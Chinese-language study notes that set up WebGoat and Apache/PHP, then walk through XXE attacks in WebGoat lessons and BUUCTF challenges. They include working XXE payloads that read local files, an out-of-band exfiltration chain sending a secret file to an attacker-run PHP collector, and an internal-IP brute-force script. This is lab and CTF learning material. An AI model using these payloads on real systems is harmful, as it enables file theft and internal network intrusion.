


# 环境
## WebGoat 搭建  
1. 
安装docker,使用以下命令  
```bash
docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```  


2. 
https://github.com/WebGoat/WebGoat/releases/download/v2025.3/webgoat-2025.3.jar  


3. 使用源码搭建  

- 下载源码  
```
git clone https://github.com/WebGoat/WebGoat.git
``` 
进入，在当前目录打开pom.xml文件，找到java.version标签，把java版本修改为自己的java版本。 使用管理员权限，执行  
```bash
./mvnw.cmd clean install
```  
~/.m2/repository/org/eclipse/jgit/org.eclipse.jgit
cd ~/.m2/repository/org/apache/pdfbox/pdfbox/2.0.24  

## php和Apache httpd  
httpd下载连接  
```
https://www.apachelounge.com/download/ 
```  
解压缩之后有一个叫Apache24的文件夹，如果移动到其他地方，需要自己修改配置，如果直接放在C盘，就不需要再修改配置。  
配置文件是Apache24/config/httpd.conf,找到图中内容，把路径修改为自己的路径  
在Apache24/bin目录双击运行ApacheMoniter.exe  
  
  
如果没有打开，左键单击图标可以开启  

如果左键没有反应，右键单击，打开open servers,看到Apache2.4,就开启他  

启动成功后访问localhost，页面应该和Apache24/htdocs/index.html一样  
  

php下载连接 
```
https://www.php.net/downloads.php  
```
选择一个版本，点击Windows downloads，
  

有很多，比如这里有两个，上面是Non Thread Safe,下面是Thread Safe,下载Thread Safe的，解压之后放好  

打开Apache24/conf/httpd.conf文件，在合适的地方添加下面内容，文件内有很多标签，不要加在标签内部就可以了。文件路径该为自己php的路径。  
```
LoadModule php_module 'C:/server/php8.4.5/php8apache2_4.dll'
PHPIniDir 'C:/server/php8.4.5'
AddType application/x-httpd-php .php
```

在Apache24/htdocs/下添加一个hello.php文件，填写下面内容  
```php
<?php

echo "hello";
```  
然后重启httpd
  
访问localhost/hello.php  
下面是成功的情况  
  
如果没有配置好，可能是下面的样子  
  

# XXE  
XXE（XML外部实体注入）是一种针对应用程序处理XML数据的方式的攻击。在这种攻击中，攻击者利用应用程序对XML输入的处理不当，访问敏感数据。  

## XML  
XML 是可扩展标记语言（Extensible Markup Language），是一种标签语言，用来传输和存储数据。必须使用树形结构。  
DTD用于定义XML文档的结构、元素、属性、实体等合法组成规则。  
XML实体在DTD中被声明，用于代替内容或标记。  

## 一个XXE的简单例子  
  
要求找到根目录下的内容有什么  

先提交一个评论，抓包  
  
可以发现请求体使用xml格式，再次发送拦截，并且修改请求体为以下内容  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY root SYSTEM "file:///">
]>
<comment>
<text>&root;</text>
</comment>
```  
提交之后发现评论区出现了根目录的内容  
  

第七页，因为现代REST框架，服务器可能会处理开发者没有考虑的情况，这里请求体使用json格式，但是服务端仍然可以处理xml格式的信息，所以conten-type之后采用同样的方式攻击  
修改两处，一个是Content-Type，修改成如图内容，一个是修改请求体，修改内容和上一题一样  


## blind xxe  

服务端可能设置一些过滤规则，或者由于某些特殊字符导致返回结果不可见。以一个题为例  

任务是找出/home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt的内容  
  

首先发个请求抓包  

按照xxe的思路，将请求体修改为一下内容发送，评论区将显示想要的结果  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>
<text>&secret;</text>
</comment>
```
但是返回结果并不是想要的内容，这是因为服务端检查到特殊的内容后，会将原本预期的内容修改  
  

### 外带数据实现xxe攻击  

外带数据一般是将目标内容作为get请求的参数添加到url路径后面，查看请求得到url，以本题为例  

首先需要一个目标主机能访问到的服务，攻击者能查看这个服务的请求信息  
这里可以使用Apache搭建一个服务  
比如使用Apache2.4,在Apache24/htdocs下新建一个get.php文件，内容如下  
```php
<?php

echo "This is very good!","</br>";
$file = fopen("test.txt","w");
foreach ($_GET as $key => $val){
    echo $key," ",$val,"</br>";
    fwrite($file,$val);
    fwrite($file,"\n");
}

fclose($file);
```  
当目标主机访问这个页面时，get请求的参数值会保存到test.txt文件中  

建立一个kk.txt,内容如下  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  

发评论，抓包，修改请求体如下  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
查看test.txt,保存了目标内容  
  


1. 在外部DTD中，send实体嵌套定义在int实体中，这是为了将后面的%secret;展开，如果不嵌套，而是直接用下面方式定义  
```xml
<!ENTITY % send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>
```  
那么test中的内容将是字符串"%file;"  

2. 实体int通过外部DTD定义，这是由于xml解析器在解析内部内部实体时，对展开的内容不作二次解析，而会对外部实体展开内容再次解析如果使用下面的方式  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
est.txt的内容不会发生变化，因为send没有被定义，没有发出请求  

3. send并不一定需要是参数，也可以是通用实体，用如下方式也可以得到目标内容  
kk.txt  
```xml
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  

请求体  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;
]>
<comment>
<text>hello&send;</text>
</comment>  
```  


- 还有一个简单的绕过方法，构造请求体如下  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>  <text>aaaaa&file;</text></comment>
```  
  
因为服务端检验的逻辑是，首先判断请求体的原始数据有没有包含secret的内容，只要有就通过  
如果没有就xml解析，展开实体，但是作者写成secret的内容是否包含了text标签的内容，所以随便加点就可以绕过
关键代码如下，完整代码的位置在WebGoat\src\main\java\org\owasp\webgoat\lessons\xxe  
```java  
 if (commentStr.contains(fileContentsForUser)) {
      return success(this).build();
    }
    /*
     * commentStr是请求体的原始数据，是xml格式的数据，是String类，如果包含secret的内容，就正确
     * fileContentsForUser是为用户生成的secret内容
     */

    try {
      /*
       * comments是一个CommentsCache类,管理评论区的内容
       * false表示不启用安全模式，运行使用外部实体
       * comments解析请求体返回一个Comment类
       * 如果解析后的内容属于secret的一部分，就修改请求
       * 
       */
      Comment comment = comments.parseXml(commentStr, false);
      if (fileContentsForUser.contains(comment.getText())) {
        comment.setText("Nice try, you need to send the file to WebWolf");
      }
      comments.addComment(comment, user, false);
    } catch (Exception e) {
      return failed(this).output(e.toString()).build();
    }
```


# 几个XXE题目  

## BUUCTF Fake XML cookbook  

  

提交后发现用户名出现在msg标签中  
  
 
抓包发现使用xml格式，构造请求体  

```xml
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///flag">
]>
<user>
<username>&root;</username>
<password>ddd</password>
</user>
```  


## BUUCTF True XML cookbook  

  
一模一样，同样的方式xxe攻击，但是没有显示结果，可能是攻击失败，也可能没有这个文件  

访问其他文件，比如/etc/passwd,返回结果，说明攻击成功，不存在flag文件  
  

内网渗透找/proc/net/fib_trie  
```xml  
<?xml version="1.0"?>
<!DOCTYPE user[
<!ENTITY root SYSTEM "file:///flag">
]>
<user><username>adsg</username><password>asdg</password></user>
```
  
爆破ip最后一位  
  
不过出问题了，要设置timeout，不然就需要很久，使用一个简单的脚本  
```py
import requests
url="http://49242b9d-993f-405e-aff0-2d19a551a4ba.node5.buuoj.cn:81/doLogin.php"
for i in range(1,256):
    payload=f'<?xml version="1.0"?><!DOCTYPE user[<!ENTITY root SYSTEM "http://10.244.166.{i}">]><user><username>&root;</username><password>ddd</password></user>'
    try:
        res=requests.post(url=url,data=payload,timeout=1)
        print(res.text,end="\n")
    except:
        continue
```  
重定向，然后搜索flag  
  
  


## BUUCTF XXE COURSE 1  
一个登录界面，输入提交之后有回显，抓包发现是用xml格式发送数据  
找文件直接找flag，找到了就很好  
  
  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY f SYSTEM "file:///flag">
]>
<root> <username>&f;</username> <password>asdg</password> </root>
```  
可以找到  
  

